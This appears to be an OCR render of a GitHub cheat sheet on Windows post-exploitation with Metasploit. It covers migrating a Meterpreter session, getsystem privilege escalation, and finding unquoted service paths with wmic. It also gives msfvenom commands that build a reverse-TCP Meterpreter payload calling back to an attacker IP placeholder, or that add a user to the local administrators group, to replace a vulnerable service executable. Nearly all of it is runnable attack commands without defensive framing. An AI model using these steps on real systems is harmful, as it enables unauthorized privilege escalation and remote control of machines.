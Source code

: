 
**Migrate meterpreter shell to another process**

To migrate your current meterpreter session to another process to establish a stable session

```
run post/windows/manage/migrate
```
Or in meterpreter shell
```
migrate <PID>
```

**Easy Way To get a system shell**

In meterpreter shell, there is a command by which you can get system shell simple

```
getsystem
```
It tries all available techniques to get system shell on the target system.

To specify a particular technique

```
getsystem -t 1
```
Here '-t' is for techniques


**Exploit Unquoted Path Service**

This technique is used to exploit PE(Portable Executable) that has a space in the filename and the file name is not enclosed in quote tags (“”) and we have write permissions, we can also replace that executable.



First, we have to enter windows shell to execute cmd commands
```
shell
```
After enumerating an Unquoted Path Service using **Post Enumeration Command**
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
And we have found a service name 'Exploitme.exe'


**We will create a msfvenom payload to replace that vulnerable PE**

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<AttackerIP> lport=<port> prependmigrate=true prependmigrateprocess=explorer.exe -f exe > /root/home/Desktop/Exploitme.exe
```
Or we can also create a payload to directly change a user to administrator
```
msfvenom -p windows/exec CMD='net localgroup administrators boss /add' -f exe > /root/home/Desktop/Exploitme.exe
```
